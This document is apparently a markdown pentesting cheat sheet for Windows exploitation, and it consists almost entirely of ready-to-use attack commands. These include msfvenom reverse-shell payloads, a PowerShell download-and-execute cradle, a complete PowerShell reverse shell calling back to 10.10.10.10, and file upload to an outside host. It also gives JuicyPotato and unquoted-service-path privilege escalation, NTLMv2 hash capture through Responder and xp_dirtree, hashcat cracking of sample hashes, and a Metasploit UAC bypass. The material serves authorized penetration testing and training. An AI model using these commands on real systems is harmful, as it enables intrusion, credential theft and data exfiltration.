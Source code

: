 ```yaml
---
title: 4. Exploitation - Windows
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Exploitation
toc: true
---
```


---
Step 4 in a penetration test: Exploitation.
Exploit the vulnerabilities found to gain access to the target machine.

---
<!-- more -->

<br>

## Payloads

### Metasploit
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f py -a x86 --platform windows -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode 
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.10.10_443.exe
`

<br>

## Exploit Scripts

### PowerShell
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1')
```

### Script Execution
```batch
c:\path\to\payload.exe
```

<br>

## Servers

### SMB Server
```bash
smbserver.py $share /path/ -smb2support -username user -password pass -port 1445 -configfile smbserver.conf
```
```batch
\\10.10.10.10\share\whoami.exe
net use Z: \\10.10.10.10\share /user:'username' 'password'
```

### HTTP Server
```bash
python -m http.server 8080
```
```batch
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10:8080/payload.exe -OutFile C:\path\to\payload.exe"
```

<br>

## File Transfer


```batch Download files
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10/file.exe -OutFile C:\path\to\file.exe"
```
```batch Upload files
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10/upload -Method Post -InFile C:\path\to\file.exe"
```

<br>

## Exploitation Tools

### Windows Reverse Shell (PowerShell)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535|%{0};
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){
  $data = (New-Object -TypeName PSObject -Property @{Data = $buffer[0..($i-1)]}).Data;
  $response = Invoke-Expression -Command ([Text.Encoding]::ASCII.GetString($data));
  $response = [Text.Encoding]::ASCII.GetBytes($response + 'Prompt>');
  $stream.Write($response, 0, $response.Length);
}
```

<br>

## Privilege Escalation

### Check Privileges
```batch
whoami /priv      REM Check SeImpersoantePrivilege - Juicy Potato
```

<br>

### `JuicyPotato.exe` privesc from service acc to System
Use a CLSID from the list provided by JP [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
```batch
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
```

<br>

### Unquoted Service Path
```powershell Check for unquoted service paths
wmic service get name,pathname, startname | findstr /i "c:\program files"
```
```batch Exploit unquoted service path
sc config "ServiceName" binPath= "C:\path\to\payload.exe"
```

<br>

### Capture NTLMv2 hashes via Responder
Request a file in an SMB share from a database usnig `xp_dirtree`
```bash Start responder
responder -I tun0
```
```bash Request a file from a non-existing SMB share
mssqlclient.py $user:'$pass'@$IP -windows-auth

SQL> xp_dirtree '\\10.10.10.10\nonexistent';
```

Crack the hash - view format [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
```bash NetNTLMv2
# admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030

hashcat -m 5600 hashes /usr/share/wordlists/rockyou.txt -o hash.cracked --force
```
```bash Kerberos 5, etype 23, AS-REP
#  $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac 

hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt -o hash.cracked --force
```

<br>

### Metasploit - bypass UAC
```bash
msfconsole -x 'use exploit/windows/local/bypass_uac; set session 1; run'
```

<br>

---
---
